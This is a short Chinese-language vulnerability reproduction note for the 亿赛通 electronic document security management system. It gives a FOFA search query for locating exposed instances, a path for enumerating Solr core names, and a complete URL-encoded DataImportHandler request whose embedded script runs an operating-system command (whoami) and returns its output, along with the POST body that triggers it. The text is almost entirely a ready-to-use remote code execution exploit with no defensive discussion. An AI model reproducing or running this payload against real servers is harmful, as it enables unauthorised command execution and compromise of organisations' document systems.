



# 影响范围：
亿赛通电子文档安全管理系统
# FoFa Dork
title="电子文档安全管理系统"
# 漏洞复现：
登录页面：

访问地址获取name
```/solr/admin/cores```  

POST访问漏洞地址：
```/solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22whoami%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20```
URL中```/solr/flow/dataimport```flowti替换为上个页面中获取的name值，同时url中包含想要执行的命令，这里用的```whoami```
添加POST数据：  
```<?xml version="1.0" encoding="UTF-8"?>
<RDF>
<item/>
</RDF>```

使用PeiQi的脚本进行利用：    
  
